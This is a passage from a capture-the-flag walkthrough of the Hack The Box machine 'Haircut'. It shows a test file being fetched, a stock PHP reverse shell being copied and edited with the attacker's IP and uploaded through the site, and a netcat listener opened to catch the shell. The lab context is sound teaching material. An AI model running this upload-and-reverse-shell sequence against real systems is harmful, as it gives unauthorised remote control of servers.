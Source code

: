 Check back at our HTTP server and we see the file was requested by the box:

```text
root@kali:~/htb/haircut# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
10.10.10.24 - - [04/Jun/2020 16:46:30] "GET / HTTP/1.1" 200 -
10.10.10.24 - - [04/Jun/2020 17:03:09] "GET /hello.html HTTP/1.1" 200 -
```

See if we can get to that file on the box:

![test_file_exists](/assets/images/2020-06-04-21-56-13.png)

Success, so we have confirmed we can upload a file, time to put a shell on there:

```text
root@kali:~/htb/haircut# locate shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/php/shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/shell.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/webshells/php/findsocket/php-findsock-shell.php

root@kali:~/htb/haircut# cp /usr/share/webshells/php/php-reverse-shell.php .
```

Just had to edit that shell script to put my current IP in it, now upload through the web page as before:

![write_reverse_shell](/assets/images/2020-06-04-21-56-57.png)

Back on Kali get a nc session listening:

```text
root@kali:~/htb/haircut# nc -nlvp 1234
listening on [any] 1234 ...
```
